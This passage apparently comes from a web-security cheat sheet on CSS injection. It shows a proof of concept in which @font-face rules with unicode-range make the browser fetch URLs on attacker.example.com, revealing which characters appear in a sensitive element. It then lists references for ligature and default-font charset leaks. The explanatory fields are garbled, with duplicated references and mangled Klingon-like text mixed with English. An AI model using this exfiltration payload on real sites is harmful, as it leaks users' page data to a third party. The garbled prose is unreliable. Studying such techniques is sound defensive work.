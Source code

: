 You can specify **external fonts for specific unicode values** that will only be **gathered if those unicode values are present** in the page. For example:
```html
<style>
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?A); /* fetched */
unicode-range:U+0041;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?B); /* fetched too */
unicode-range:U+0042;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?C); /* not fetched */
unicode-range:U+0043;
}
#sensitive-information{
font-family:poc;
}
</style>

<p id="sensitive-information">AB</p>htm
```
### Text node exfiltration (I): ligatures <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

**Reference:** [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

**QawHaq:** [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

**Qap:** QawHaqDaq pagh Chrome je Firefox "?A" je "?B" fetch vItlhutlh "A" je "B" characters. 'ach Chrome je Firefox fetch vItlhutlh "?C" vaj 'ach "C" vItlhutlh. vaj vItlhutlh "A" je "B" vItlhutlh'e'. 

### Text node exfiltration (II): leaking the charset with a default font (not requiring external assets) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>

**Reference:** [PoC using Comic Sans by @Cgvwzq & @Terjanq](https://demo.vwzq.net/css2.html)

**QawHaq:** [PoC using Comic Sans by @Cgvwzq & @Terjanq](https://demo.vwzq.net/css2.html)

**Qap:** QawHaqDaq PoC using Comic Sans by @Cgvwzq & @Terjanq. The charset used in a text node can be leaked using the default fonts installed in the browser: no external -or custom- fonts are needed.
